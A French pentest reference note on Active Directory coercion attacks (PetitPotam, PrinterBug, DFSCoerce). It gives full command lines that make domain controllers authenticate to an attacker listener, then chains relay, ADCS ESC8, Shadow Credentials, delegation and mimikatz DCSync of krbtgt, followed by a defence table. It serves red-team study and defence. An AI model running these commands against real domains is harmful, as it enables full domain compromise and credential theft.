

# 🧲 Coerce — PrinterBug & PetitPotam

> [!info] **En 1 phrase**
> Coerce = **forcer une machine** (souvent un DC, en SYSTEM) à **initier une authentification vers notre serveur**,
> sans avoir aucun compte — c'est la brique qui alimente le relay, la délégation et la capture de hashes.

> [!info] 💡 **Pourquoi c'est la clé de voûte**
> Le DC s'authentifie **lui-même** (avec son compte machine `DC$`, en SYSTEM) → l'auth est celle
> d'un compte **super privilégié** (le DC$ peut DCSync !). On la relaie/capture/relie à une délégation.

---

## 🎯 Le concept



> [!info] 💡 **Le point clé**
> La cible **ne fait que répondre** à un appel RPC "légitime" (bug du spooler, de l'EFS, du DFS...).
> La machine **croit parler à un collègue** → elle s'authentifie spontanément vers l'attaquant.

---

## 🛠️ Les outils de coercion

| Outil | Protocole | Remarques |
|---|---|---|
| **SpoolSample** | MS-RPRN (spooler) | Le plus connu ; **mort si spooler désactivé** |
| **printerbug** | MS-RPRN | KrbRelay, variante |
| **PetitPotam** | MS-EFSRPC | Fonctionne **même spooler off** — le plus utilisé aujourd'hui |
| **DFSCoerce** | MS-DFSNM | DFS Namespace |
| **WSPCoerce** | MS-WSP | Workstations (wsearch), SMB only |
| **Coerce_plus** (netexec module) | multiple | Agrège plusieurs méthodes |

```bash
# Vérifier si le spooler tourne sur la cible (prérequis PrinterBug)
nxc smb 10.10.10.10 -u user -p pass -M spooler

# PetitPotam (authentifié ou pas)
python3 petitpotam.py -d domain -u user -p pass ATTACKER_IP DC_IP
python3 petitpotam.py -d '' -u '' -p '' ATTACKER_IP DC_IP   # anonyme (dépend du patch)

# SpoolSample / printerbug
SpoolSample.exe DC01 ATTACKER01
python3 printerbug.py 'domain/user:pass'@DC01 ATTACKER01

# DFSCoerce
python3 dfscoerce.py -u user -d domain DC_IP ATTACKER_IP

# Tout-en-un via netexec
nxc smb 10.10.10.10/24 -u user -p pass -M coerce_plus -o METHOD=PetitPotam
```

---

## 🔗 Combinaisons gagnantes

### 1. Coerce → NTLM Relay (LDAP/ADCS)

```bash
# Relayer l'auth du DC vers un second DC (LDAP) → se créer un compte admin
ntlmrelayx.py -t ldap://DC02 --add-computer attacker --delegate-access
python3 petitpotam.py -d domain -u user -p pass ATTACKER_IP DC01_IP

# Variante ADCS (ESC8) : relayer vers l'API de certification
ntlmrelayx.py -t http://DC02/certsrv/certfnsh.asp --adcs --template DomainController
python3 petitpotam.py -u user -p pass -d domain ATTACKER_IP DC01_IP
```

### 2. Coerce → Délégation non restreinte (TGT du DC)

```bash
# Voir fiche : on fait venir le TGT du DC$ en mémoire de la machine compromise
Rubeus.exe monitor /interval:1            # sur la machine compromise
python3 petitpotam.py -u u -p p ATTACKER MACHINE_COMPROMISE_IP   # la faire coerce
Rubeus.exe asktgs /ticket:<base64> /service:cifs/dc,ldap/dc /ptt
mimikatz# lsadump::dcsync /user:krbtgt
```

### 3. Coerce → Shadow Credentials (se lier le DC$)

```bash
ntlmrelayx -t ldap://DC02 --shadow-credentials --shadow-target 'dc01$'
# puis gettgtpkinit / gets4uticket → DCSync (voir fiche Shadow Credentials)
```

### 4. Coerce → Capture NetNTLMv1 (downgrade, shuck)

```bash
# Responder challenge fixe + coerce → tokens NetNTLMv1 → shuck.sh / crack.sh
# voir fiche Hash capture / section 3.17 de la note AD
```

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **Désactiver le spooler** (si possible) | Tue SpoolSample/printerbug (attention : certaines apps en dépendent) |
| **Patch EFSRPC/EFS** | PetitPotam patché sur DC à jour (depuis août 2021) |
| **SMB Signing obligatoire** | Bloque le relay (pas la capture) |
| **EPA (Extended Protection)** | Bloque le relay vers LDAP/HTTPS |
| **LDAP Signing / LDAPS** | Windows Server 2025 DC : activé par défaut |
| **Surveiller les connexions sortantes RPC vers des IP inconnues** | Le signe d'une coercion en cours |

> [!warning] 🚩 **Signing : le tableau à retenir**
> - DC Windows Server 2019/2022 : **SMB Signing ✅**, **LDAP Signing ❌** → relay LDAP encore possible.
> - Machines membres / Windows 10/11 : SMB signing souvent **désactivé** → relay SMB possible.
> - Windows 11 24H2 : SMB signing **activé par défaut**.
> → Vérifie avec : `nxc smb 10.10.10.0/24 -M smb-risky` ou le module `--signing`.

## ⚠️ Tips & Pièges

- **Responder et relay ne font pas bon ménage** : si Responder "mange" la requête SMB, le relay ne reçoit rien. Mets `SMB=Off` et `HTTP=Off` dans `Responder.conf` quand tu relayes.
- **Coerce → Kerberos ou NTLM ?** : un coerce par **hostname/FQDN** peut amener un ticket **Kerberos** (utile pour délégation) ; par **IP** il ramène du **NTLM** (utile pour relay/capture).
- **WSPCoerce** : la cible doit être en **nom court** (pas d'IP, pas de FQDN).
- PetitPotam **authentifié** fonctionne souvent là où la version anonyme est patchée — teste les deux.
- Ne coerce **jamais** vers Internet/une IP inconnue en prod : vérifie toujours l'IP de ton listener.

---

> [!info] 📚 **Sources**
> - [InternalAllTheThings — Coerce](https://github.com/swisskyrepo/InternalAllTheThings/blob/main/docs/active-directory/internal-relay-coerce.md)
> - [The Ultimate Guide to Windows Coercion Techniques in 2025 — RedTeam Pentesting](https://blog.redteam-pentesting.de/2025/windows-coercion/)

➡️ Liens : [[NTLM Relay|🔗 NTLM Relay]] · [[LLMNR-NBT-NS Poisoning|🎙️ LLMNR/NBT-NS Poisoning]] · [[Shadow Credentials|🌑 Shadow Credentials]] · [[05 - Active Directory|👑 Active Directory]]
